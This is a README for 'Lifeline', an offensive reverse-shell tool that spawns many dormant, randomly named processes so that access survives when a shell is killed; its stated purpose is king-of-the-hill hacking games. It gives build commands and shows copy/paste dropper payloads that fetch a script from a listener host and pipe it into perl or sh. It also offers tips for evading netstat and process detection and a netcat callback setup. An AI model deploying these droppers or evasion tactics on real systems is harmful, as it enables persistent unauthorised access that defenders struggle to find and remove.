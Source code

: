# Lifeline

Lifeline is a reverse shell that's designed to be hard to detect and hard to kill. It does this by spawning many dormant processes with randomized names that can take over when a shell is killed.

## tl;dr:
![](.github/meme.png)

It is like the cockroach of reverse shells; Not particularly nice to look at, but it will survive almost anything.


## Features
### Pros
 * Easily spawn many reverse shells as background processes
 * Only one process will connect back to your listener, leaving all other processes undetected by `netstat`
 * The default reverse shell does not use a `pts`, making it harder to detect.
 * Compatible with [pwncat](https://github.com/calebstewart/pwncat)
### Cons
 * The reverse shell is extremely bare bones and not super user-friendly.
 * The reverse shell is compiled, making it harder to deploy if your target has a different architecture.


## Dependencies
* GCC
* make
* python3 (used as a basic webserver)

## Usage
To compile and serve a lifeline binary, use the following command:
```
make serve HOST=x.x.x.x
```
This command will build the binary, create dropper scripts and hosts them using `python3`'s webserver.

```
[~/git/lifeline]~$ make serve HOST=10.0.0.12
=========================================================
  Hosting dropper on http://10.0.0.12:8000...        
  Copy/Paste payloads:                                   
                                                         
 In memory:                                              
  curl http://10.0.0.12:8000/dropper.pl | perl       
  wget -O - http://10.0.0.12:8000/dropper.pl | perl  
                                                         
 Temp file:                                              
  curl http://10.0.0.12:8000/dropper.sh | sh         
  wget -O - http://10.0.0.12:8000/dropper.sh | sh    

 Raw download:
  curl http://10.0.0.12:8000/lineline > lifeline         
  wget http://10.0.0.12:8000/lifeline
=========================================================

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

After which you can open a new terminal with a `nc` listener on port `1337` and wait for the callback.  
From the `nc` listener, you can execute commands directly or drop into an `sh` process using the "!shell" command.

## Make flags:
|Flag      |                                                            |
|----------|------------------------------------------------------------|
|`HOST`    | Listener IP address.                                       |
|`PORT`    | Listener port, defaults to `1337`.                         |
|`NUM`     | Number of processes started by a dropper, defaults to `10`.|
|`PY_PORT` | Port used for Python http server, defaults to 8000.        |


## Practicalities
* Since the lifeline processes are spawned in quick succession, they will likely have sequential `PID`'s. Spawning a small amount of new shells manually will yield better results than spawning 100 shells at once.
* By spawning a few lifelines without opening a listener, you can keep the processes hidden until your other shells are killed.

## F.A.Q.
### Q; Does this provide an persistance against reboots?
No, I created this program mostly for "KOTH"-like hacking games, where reboots aren't really an issue. 
### Q; Why is the shell so bad?
The default "shell" is actually just a bunch of `popen` calls. You can used "!shell" to drop into a normal reverse shell which you can stabilize with Python. You can also use [pwncat](https://github.com/calebstewart/pwncat)'s listener if you want a fancy shell.

The rationale behind this is that I want to keep control over the process to facilitate reconnecting, which is not possible once you set up a normal reverse shell with `execve`.